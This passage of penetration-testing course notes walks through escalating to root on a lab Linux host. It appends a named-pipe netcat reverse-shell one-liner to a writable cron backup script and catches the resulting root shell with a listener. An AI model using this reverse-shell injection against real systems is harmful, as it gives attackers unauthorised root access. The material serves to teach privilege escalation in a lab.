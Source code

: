 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/184.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/185.jpg)

student@debian:/var/scripts$ echo >> user_backup.sh
student@debian:/var/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|
nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh
student@debian:/var/scripts$ cat user_backups.sh
#!/bin/bash
cp -rf /home/student/ /var/backups/student/

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f



![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/186.jpg)

• All we have to do now is set up a listener on our Kali Linux machine and wait for the cron job toexecute:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/187.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/188.jpg)

kali@kali:~$ nc -lnvp 1234
 listening on [any] 1234 ...
 connect to [10.11.0.4] from (UNKNOWN) [10.11.0.128] 43172
 /bin/sh: 0: can't access tty; job control turned off
 # whoami
 root
 # 

• As shown in the previous listing, the cron job did execute, as did the reverse shell one-liner. 
 
• We have successfully elevated our privileges and have access to a root shell on the target.
 
• Although this was a simple example, we have encountered several similar situations in the field since administrators are often more focused on wrang ling cron’s odd syntax than on securing script file permissions.



18.3.2.1 Exercise1. Log in to your Debian client as an unprivileged user and attempt to elevate your privileges toroot using the above technique
18.3.3 Insecure File Permissions: /etc/passwd Case Study

18.3.3 Insecure File Permissions: /etc/passwd Case Study


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/189.jpg)


• Unless a centralized credential system such as Active Directory or LDAP is used, Linux passwords are generally stored in /etc/shadow, which is not readable by normal users.

